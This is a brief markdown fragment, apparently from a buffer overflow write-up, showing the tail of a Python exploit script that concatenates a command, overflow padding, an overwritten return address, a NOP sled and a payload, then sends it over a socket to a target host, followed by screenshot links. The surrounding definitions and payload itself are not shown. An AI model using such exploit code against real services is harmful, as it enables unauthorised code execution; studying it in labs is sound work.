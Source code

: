 ```
post = "\r\n"

sendbuffer = cmd + overflow + eip_val + nops + payload + post

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(3)
s.connect((ip, port))
s.send(sendbuffer.encode('latin1'))
```

![bof-success](assets/markdown-img-paste-20210908203120581.png)

![enum1](assets/markdown-img-paste-20210908143332904.png)
